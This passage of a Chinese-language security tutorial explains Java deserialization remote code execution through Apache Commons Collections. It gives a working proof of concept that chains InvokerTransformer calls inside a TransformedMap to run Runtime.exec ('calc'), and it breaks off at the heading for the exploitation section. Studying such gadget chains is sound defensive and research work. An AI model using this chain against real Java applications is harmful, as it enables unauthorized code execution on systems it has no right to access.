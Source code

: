 调用这些`transform`方法的是一个叫`TransformedMap`的类，这个类可以当做原生Map类的一个包装类（通过`TransformedMap.decorate`方法）。进入这个类一探究竟：

![](http://drops.javaweb.org/uploads/images/c82efc99f4fd086abe58ff77826cd68146bd50cb.jpg)

这里的`decorate`方法就是对外创建`TransformedMap`对象的方法。在代码中我们可以清晰找到`transform`方法是如何被调用的。

![](http://drops.javaweb.org/uploads/images/66f040754e6530296e5ed8a485fae9be412abecc.jpg)

以及`entry`对象调用`setValue`时，执行的`checkSetValue`：

![](http://drops.javaweb.org/uploads/images/4965eb1b238fe786a20915634bc9124fed0c6478.jpg)

为了搞清楚为啥在`setValue`的时候发生了什么，我们来看代码：

```
public class TransformTest {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, 
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, 
                    new Object[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers) ;
        Map innerMap = new HashMap() ;
        innerMap.put("name", "hello") ;
        Map outerMap = TransformedMap.decorate(innerMap, null, chain) ;

        Map.Entry elEntry = (Entry) outerMap.entrySet().iterator().next() ;
        elEntry.setValue("hello") ;
    }
}

```

代码中，我们将我们要执行的多行代码分散到各个`transformer`里，使用`InvokeTransformer`类来执行我们的方法。接着用`TransformedMap`来执行`transfom`方法触发代码。

这里的原生Map用来被`TransformedMap`包装，然后map的`entry`对象调用了`setValue`方法。在java环境中执行上面的代码，最后会弹出计算器：

![](http://drops.javaweb.org/uploads/images/5fb4d785448d93bb4d91e27a2ee37ec6a1280d89.jpg)

到目前为止，我们找了一些创造RCE的条件：

（1）使用了`InvokeTransformer`的对象，并在`transform`方法里执行代码；  
（2）使用`TransformedMap`通过执行setValue方法来触发`transform`方法。

对于一个“不讲道理”的RCE，显然需要另一个好用的类来同时满足上面两点，并且在`readObject`里进行调用。`readObject`方法是java的序列化对象（实现了`Serializable`接口）中首先会调用的方法。

0x02 利用
=======
